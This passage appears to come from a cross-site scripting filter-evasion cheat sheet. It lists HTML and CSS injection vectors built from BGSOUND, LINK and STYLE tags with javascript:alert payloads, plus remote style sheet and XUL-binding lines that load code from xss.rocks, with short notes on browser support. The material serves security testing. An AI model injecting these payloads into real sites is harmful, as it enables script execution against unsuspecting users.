 ```js
<BGSOUND SRC="javascript:alert('XSS');">
```

#### & JavaScript includes

```html
<BR SIZE="&{alert('XSS')}">
```

#### STYLE sheet

```html
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### Remote style sheet

Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:

```html
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

#### Remote style sheet part 2

This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:

```html
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

#### Remote style sheet part 3

This only works in Gecko rendering engines and works by binding an XUL file to the parent page.

```html
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

### STYLE Tags that Breaks Up JavaScript for XSS

This XSS at times sends IE into an infinite loop of alerts:

```html
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

### STYLE Attribute that Breaks Up an Expression
